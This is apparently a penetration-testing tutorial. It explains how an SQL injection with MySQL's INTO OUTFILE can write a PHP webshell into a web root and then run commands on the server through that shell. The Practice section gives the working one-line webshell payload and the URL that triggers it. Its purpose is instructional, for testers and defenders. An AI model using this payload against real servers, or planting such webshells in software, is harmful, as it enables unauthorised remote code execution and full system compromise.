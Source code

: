 ```yaml
---
title: Deploying PHP Webshell via MySQL OUTFILE Method
description: Learn to exploit MySQL's OUTFILE method for deploying a PHP webshell,
  achieving remote code execution through SQL injection vulnerabilities.
keywords:
- MySQL OUTFILE
- webshell deployment
- SQL injection
- remote code execution
- PHP webshell
---
```


# WEBSHELL - OUTFILE Method

## Context

The purpose of this article is to teach how to exploit MySQL's OUTFILE method to deploy a webshell for remote code execution. This technique leverages SQL injection vulnerabilities and the MySQL's FILE privilege to write a PHP webshell to the web server's file system. The reader is assumed to have knowledge of webshells, file system permissions, and the MySQL FILE privilege, as well as familiarity with MySQL command execution techniques.

## Theory

### MySQL OUTFILE Method

The OUTFILE method in MySQL is typically used for writing the result of a query to a file. However, this command can be misused by attackers to write arbitrary files to the server if file system permissions and privileges are not properly controlled. By exploiting an SQL injection vulnerability, attackers can execute the OUTFILE command to drop malicious files, such as a webshell, onto the server.

#### How It Works
- **Definition**: OUTFILE is a MySQL command that outputs the result of a SELECT statement to a file.
- **Vulnerability Model**: When misused, this feature can act as a conduit for writing arbitrary files to the server.
- **Attack Sequence**: Use SQL injection to execute OUTFILE, enabling file writes in directories accessible by the web server.

### Webshell Deployment via OUTFILE

Webshells are scripts that enable command execution via a web interface. Deploying a webshell through the OUTFILE method involves injecting SQL code to write a script into a directory exposed by the web server.

#### Key Concepts
- **Core Principle**: Use SQL injection to transmit a PHP webshell onto a server.
- **Precondition**: The MySQL user must possess the FILE privilege, and the write path must be a web-accessible directory.
- **Deploy Process**: Inject SQL to use OUTFILE, thereby sending PHP code to a specified path.

## Practice

### Deploying a PHP Webshell via OUTFILE

To successfully deploy a PHP webshell via the OUTFILE method, follow these steps:

- **Identify a writable directory**: You need a directory on the server where the web server has write access and can execute files. Common paths include web root directories such as `/var/www/html` or `/htdocs`.

- **Execute SQL Command to Write Webshell**: Use an SQL injection point to execute the following command:
    ```bash
    SELECT '<?php system($_GET[\'cmd\']); ?>' INTO OUTFILE '/var/www/html/shell.php';
    ```
    This command writes a simple PHP webshell to the targeted directory.

- **Verify Web Server Permissions**: Before accessing the webshell, ensure the web server has permission to execute PHP files in the specified directory.

- **Access the Webshell**: Use a web browser to navigate to the newly created webshell and execute commands:
    ```plaintext
    http://target/shell.php?cmd=id
    ```
    This URL will trigger the webshell to run the `id` command on the server, illustrating command execution.

### Result

By leveraging this technique, you achieve remote code execution capabilities. Accessing the PHP webshell allows you to run arbitrary commands on the server, potentially leading to complete system compromise.

## Tools

- **MySQL Client**: Essential for executing SQL commands.
- **Web Browser**: Required to interact with the deployed webshell.